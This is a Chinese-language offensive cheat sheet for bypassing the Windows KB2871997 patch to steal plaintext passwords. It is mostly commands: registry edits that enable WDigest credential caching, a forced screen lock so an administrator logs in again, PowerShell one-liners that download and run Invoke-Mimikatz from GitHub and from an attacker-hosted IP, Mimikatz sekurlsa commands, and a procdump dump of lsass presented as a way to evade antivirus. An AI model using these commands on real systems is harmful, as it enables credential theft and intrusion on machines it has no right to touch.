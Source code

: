 # KB2871997补丁绕过

### 开启

cmd

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

powershell

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
```

meterpreter

```
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1
```

### 关闭

cmd

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

powershell

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
```

meterpreter

```
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 0
```

### 强制锁屏

在开启 `Wdigest Auth` 后，需要管理员重新登录才能逮到明文密码。

我们可以强制锁屏，让管理员重新登录。

cmd

```
rundll32 user32.dll,LockWorkStation
```

powershell

```
powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/kiraly15/Lock-WorkStation/master/Lock-WorkStation.ps1');"
```

> 经测试 Win10企业版 仅锁屏读明文失败，需要注销才行，其它版本未知。
> 

手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码

### 抓取明文

开启 `Wdigest Auth` 后，接下来就用常规的抓取明文的方式就行了。

powershell

```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.106:8000/Invoke-Mimikatz.ps1');Invoke-Mimikatz
```

本地上传exe执行

```
privilege::debug
sekurlsa::logonpasswords
```

### 离线抓取

当 `Mimikatz` 被杀，可以先将 `lsass` 进程 `dump` 下来，在本地用 `Mimikatz` 读取。

1、dump进程

可以用微软提供的 `[procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)` ，自带微软签名，可以过杀软。

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

2、Mimikatz读取

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```